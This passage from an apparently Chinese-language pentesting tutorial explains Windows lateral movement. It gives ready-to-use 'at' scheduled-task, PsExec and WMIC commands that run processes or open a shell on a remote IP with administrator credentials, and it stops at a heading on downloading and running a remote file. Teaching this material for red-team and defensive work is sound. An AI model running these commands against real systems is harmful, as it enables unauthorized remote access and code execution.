 ​    删除计划任务

​    ![image.png](https://image.3001.net/images/20200304/15833018684556.png!small)

​    低版本的操作系统可以直接使用at创建计划任务：

```
net time \\186.64.10.13 at \\186.64.10.13 18:01 c:\windows\temp\test.bat
```

​    **3.2.2PsExec(445端口)**

​    PsExec来自Microsoft的Sysinternals套件，它首先通过SMB连接到目标上的ADMIN$共享,上传psexesvc.exe，然后使用服务控制管理器启动.exe，以在远程系统上创建命名管道，最后使用该管道进行I/O

> ​    下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/psexec

​    1、通过ADMIN$连接，然后释放psexesvc.exe到目标机器。

​    2、通过服务管理SCManager远程创建psexecsvc服务，并启动服务。

​    3、客户端连接执行命令,服务端启动相应的程序并执行回显数据。

```
psexec \\186.64.10.13 -u Domain\User -p Password Command
```

​    ![image.png](https://image.3001.net/images/20200304/15833018908934.png!small)

​    或者返回交互式shell:

​    ![image.png](https://image.3001.net/images/20200304/15833019001585.png!small)

​    **3.2.3WMI(135端口)**

​    WMI(Windows Management Instrumentation，Windows管理规范)是一项核心的Windows管理技术；用户可以使用WMI管理本地和远程计算机

​    通过使用端口135上的远程过程调用(RPC)进行通信以进行远程访问（以及以后的临时端口）, 它允许系统管理员远程执行自动化管理任务，例如远程启动服务或执行命令。 它可以通过wmic.exe直接进行交互。

​    查询进程信息：

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process list brief
```

​    ![image.png](https://image.3001.net/images/20200304/15833019207800.png!small)

​    首先WMI并不支持执行命令，而是支持执行文件但是你可以加相应的参数，比如

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123.. process call create "cmd.exe /c ipconfig"
```

​    ![image.png](https://image.3001.net/images/20200304/15833019312087.png!small)

​    创建进程：

```
wmic /node:186.64.10.13 /user:Administrator /password:Admin@123 process call create "calc.exe"
```

​    下载远程文件并执行:
